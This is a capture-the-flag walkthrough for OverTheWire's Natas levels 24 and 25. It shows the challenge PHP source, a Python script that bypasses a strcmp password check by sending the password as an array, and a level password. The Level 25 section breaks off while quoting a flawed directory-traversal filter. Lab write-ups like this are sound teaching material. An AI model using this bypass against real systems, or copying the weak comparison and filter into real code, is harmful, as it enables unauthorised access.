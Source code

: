 This challenge is similar to Level 23 - we have to provide a password to login.

Upon clicking on the view source code, there is a php code within:

```
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```

At first glance, I didn't know what to do. So I searched for `php strcmp vulnerabilities` and found this [page](https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/). So apparently, if we pass in an array instead of a string to strcmp(), it will give a warning but the compare result returns a 0 (meaning that it's equal). Here's the python script to solve this challenge.

```
import requests

username = "natas24"
password = "OsRmXFguozKpTZZ5X14zNO43379LZveg"

session = requests.Session()

url = "http://{}.natas.labs.overthewire.org/".format(username)

response = session.post(
    url, data={"passwd[]": "anything"}, auth=(username, password))
content = response.text
print(content)
```

# Level 25

In this webpage, there is a quote printed on the screen with a dropdown to change the language of the quote.

Upon clicking on the view source code, there is a php code within:

```
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en");
    }

    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
```